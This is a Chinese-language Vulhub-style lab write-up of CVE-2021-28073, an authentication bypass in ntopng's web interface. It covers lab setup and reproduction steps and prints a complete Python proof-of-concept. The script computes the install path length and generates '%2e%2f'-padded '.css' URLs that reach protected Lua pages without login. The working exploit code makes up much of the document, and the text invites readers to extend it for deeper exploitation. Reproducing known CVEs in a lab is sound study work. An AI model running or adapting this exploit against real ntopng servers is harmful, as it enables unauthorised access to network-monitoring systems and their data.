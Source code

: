 # ntopng权限绕过漏洞 CVE-2021-28073

## 漏洞描述

ntopng是监控服务器网络流量的工具，对外提供Web页面。其4.2及以前的版本中存在一处权限绕过漏洞，利用该漏洞可以未授权访问目标任意接口。

参考链接：

- http://noahblog.360.cn/ntopng-multiple-vulnerabilities/

## 环境搭建

Vulhub执行如下命令启动ntopng：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:3000`将被跳转到登录页面，默认密码admin/admin，首次登录将会重设密码。

## 漏洞复现

根据参考链接中的方法，编写一个简单的[poc.py](https://github.com/vulhub/vulhub/blob/master/ntopng/CVE-2021-28073/poc.py)。首先，计算出ntopng lua目录的长度：

```
python poc.py --url http://your-ip:3000/ baselength
```

![image-20220228113233978](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202281132047.png)

可见，Vulhub靶场中的长度为36。

然后，找到我们想要越权访问的页面或接口，比如`/lua/find_prefs.lua`，正常访问时会302跳转到登录页面，无权限。

使用POC生成越权访问URL：

```
python poc.py --url http://your-ip:3000/ generate -l 36 -p find_prefs.lua
```

![image-20220228113310020](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202281133101.png)

访问这个URL，发现可以越权返回正常信息：

![image-20220228113322732](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202281133775.png)

后续更深入的利用方法，可以自行修改poc.py利用。

## 漏洞POC

```python
import sys
import requests
import argparse
import logging


def is_ntopng() -> bool:
    response = session.get(base_url, allow_redirects=False)
    return response.status_code == 302 and '/lua/login.lua' in response.headers.get('Location', '')


def get_base_length() -> int:
    for i in range(90, 120):
        url = base_url + '/lua/' + '%2e%2f' * i + 'as_stats.lua.css'
        response = session.get(url, allow_redirects=False)
        if response.status_code < 300:
            return 255 - 1 - i * 2 - len('as_stats.lua')

    for i in range(90, 120):
        url = base_url + '/lua/' + '%2e%2f' * i + 'get_macs_data.lua.css'
        response = session.get(url, allow_redirects=False)
        if response.status_code < 300:
            return 255 - 1 - i * 2 - len('get_macs_data.lua')

    return -1


def get_padding_length(path: str):
    padding_length = 255 - 1 - base_length - len(path)
    if padding_length % 2 == 1:
        raise RuntimeError(f'path {path} is not support')

    return int(padding_length / 2)


logging.basicConfig(stream=sys.stderr, level=logging.WARNING)
session = requests.Session()
session.headers['User-Agent'] = 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36'


if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='CVE-2021-28073 POC for ntopng.')
    parser.add_argument('-u', '--url', help='base url for ntopng, eg: http://192.168.1.233:3000', metavar='<URL>', required=True)
    parser.add_argument('-v', '--verbose', default=False, action='store_true')

    subparsers = parser.add_subparsers(dest='action')

    baselength_command = subparsers.add_parser('baselength', help='get base path length of ntopng')

    generate_command = subparsers.add_parser('generate', help='generate the authenticate bypass url')
    generate_command.add_argument('-l', '--length', type=int, help='base path length of target ntopng', metavar='<LENGTH>', required=True)
    generate_command.add_argument('-p', '--path', help='lua pathname', metavar='<PATH>', required=True)

    generate_command = subparsers.add_parser('include', help='generate the arbitrary file inclusion url')
    generate_command.add_argument('-l', '--length', type=int, help='base path length of target ntopng', metavar='<LENGTH>', required=True)
    generate_command.add_argument('-i', '--include', help='path to include', metavar='<PATH>', required=True)

    args = parser.parse_args()
    if not args.action:
        parser.print_help()
        sys.exit(1)

    if args.verbose:
        logging.basicConfig(stream=sys.stderr, level=logging.DEBUG)

    base_url = args.url.rstrip('/')

    # check target
    if not is_ntopng():
        raise RuntimeError('No Ntopng detected')

    if args.action == 'baselength':
        base_length = get_base_length()
        sys.stdout.write(f'ntopng install path length: {base_length}\n')
    elif args.action == 'generate':
        base_length = args.length
        path = args.path
        sys.stdout.write(base_url + '/lua/' + '%2e%2f' * get_padding_length(path) + path + '.css\n')
```

